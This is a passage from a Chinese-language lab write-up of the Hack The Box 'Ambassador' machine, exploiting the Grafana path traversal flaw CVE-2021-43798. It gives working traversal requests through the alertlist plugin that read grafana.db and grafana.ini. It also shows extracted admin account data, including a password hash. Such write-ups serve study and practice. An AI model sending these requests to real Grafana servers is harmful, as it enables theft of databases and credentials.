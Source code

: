 #### PoC (CVE-2021-43798)

> <https://github.com/jas502n/Grafana-CVE-2021-43798>  
> <https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix>  

网页源码里也确实有上面文章提到的plugin，如alertlist。  
然后学着github里的样子，获取敏感文件即可。  

浏览器访问似乎不行，会自动把 `../` 都删掉（后来发现原来中间的斜杠需要URL编码……），用Burp发，成功获取响应。内容太长了，右键保存到本地：  
```
GET /public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1

GET /public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
```

![HTB-Ambassador-PoC](./evidence-img/HTB-Ambassador-PoC.png)

*这里直接 `grep grafana.db` 会有什么bin文件报错。后来才发觉这个就真是整个DB库，可以在本地用SQL命令进行访问的*

```bash
$ strings grafana.db | grep admin
, `is_admin` INTEGER NOT NULL
, `is_admin`
, `is_admin`
, `is_admin` INTEGER NOT NULL
, `is_admin` INTEGER NOT NULL
+       adminadmin@localhost
        admin
adminadmin@localhostdad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab0690X27trve2uf960YdtaMF2022-03-13 20:26:452022-09-01 22:39:382022-12-23 10:33:36


$ cat grafana.ini

#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false

# default admin user, created on startup
;admin_user = admin
```